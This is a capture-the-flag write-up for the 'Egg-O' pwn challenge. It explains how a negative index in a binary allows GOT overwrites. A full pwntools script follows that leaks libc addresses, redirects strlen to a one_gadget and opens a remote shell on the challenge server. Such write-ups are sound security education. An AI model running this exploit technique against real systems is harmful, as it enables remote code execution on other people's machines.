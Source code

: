 = [HE22.37] Egg-O

image::level8/challenge37.jpg[,300,float="right"]

== Intro
Egg or chicken, what was first?

`nc 46.101.107.117 2208`

Note: The service is restarted every hour at x:00.

File: `eggo.zip`

=== Hint
unlink

== Solution

The zip-file contains an executable and a copy of the `libc`.  Inspect the
binary first with Ghidra and notice:

* Linux application
* allocation of memory for the eggs happens in one function, but the
	content of the egg is entered in another function with `gets`.
* there is an error in the program to keep track of the number of eggs --
	it is never reset
* when the appropriate egg is to be selected, then the input is only
	checked for an upper bound, negative eggs are allowed.
* the hint `unlink` points towards a heap exploit

First a heap based exploit was tried using pwntools, but led nowhere.
Then Engy pointed out that the eggs could be negative and so a direct
manipulation of all memory becomes possible.  The attack in the end works like
this:


. try to find a way to write to the GOT to redirect a function to leak
	addresses from `libc`.  The egg at index -1855 does this, it
	points to `got["strlen"]`.  `strlen` is called as part of
	the weigh function.
. redirect `strlen` to call `printf` instead.  Every call of
	`weigh_egg` now prints the content of the egg pointed to.
. leak the addresses of `printf` and `malloc`.  In priciple one
	would be enough, but having both gives a check that we are really
	dealing with the `libc` provided.
. now that we know the real addresses, we can have `strlen` point to a
	gadget.  The gadgets can be found using "one_gadget" 
	(https://github.com/david942j/one_gadget).  There are
	actually three possibilites.
. redirect `strlen` to one of the gadgets and weigh the egg.  If we
	get a SIGSEV, try the next one, otherwise enjoy the gadget and use the
	shell.


In the end the last gadget worked and we can list the remote directory, find a
file called `eggo.flag` with the flag
`he2022{wh4t_w4s_f1rst_th3_ch1ck3n_0r_th3_3gg?}`.

image::level8/egg37.png[,300,float="right"]

=== Notes

Pwntools cheat sheet
https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

Heap overflow writeup
https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/Heap_overflow.md

=== Script
[source,python]
----
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 46.101.107.117 --port 2208 ./eggo
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./eggo')
libc = ELF('./libc-2.33.so')

# gadgets from running one_gadget ./libc-2.33.so
gadgets = [0xcb5ca, 0xcb5cd, 0xcb5d0]

host = args.HOST or '46.101.107.117'
port = int(args.PORT or 2208)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
 
def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
io = start()

# use a negative egg to re-direct strlen to printf by writing to the GOT
address_of_printf_got = 0x400730  # at 0x400730 the value is 0x404048 
address_of_strlen_got = 0x4006e8
address_of_malloc_got = 0x400760

diff = (address_of_strlen_got - exe.sym.eggs) // 8
printf_plt = 0x4010a6

log.info(f'printf_plt: {hex(printf_plt)}\n')
log.info(f'printf at plt + 6: {hex(exe.plt.printf+6)}\n')

log.info(f'use egg {diff}')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(printf_plt))
print(io.recvline())

# leak the address of printf
log.info(f'address of eggs: {hex(exe.sym.eggs)}')
diff = (address_of_printf_got - exe.sym.eggs) // 8 
io.recvuntil(b'> ')
log.info('reading the address from printf@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_printf = u64(addr)

# now leak address of malloc
diff = (address_of_malloc_got - exe.sym.eggs) // 8 
log.info(f'malloc at : {hex(exe.plt.malloc)}\n')
io.recvuntil(b'> ')
log.info('reading the address from malloc@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_malloc = u64(addr)
log.info(f'diff prinf - malloc from run: {addr_printf-addr_malloc}')

# now re-direct strlen to a gadget
diff = (address_of_strlen_got - exe.sym.eggs) // 8
addr_gadget = addr_printf - libc.sym.printf + gadgets[2]
print(f'gadget in libc: {hex(addr_gadget)}')
io.recvuntil(b'> ')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(addr_gadget))

io.interactive()
----
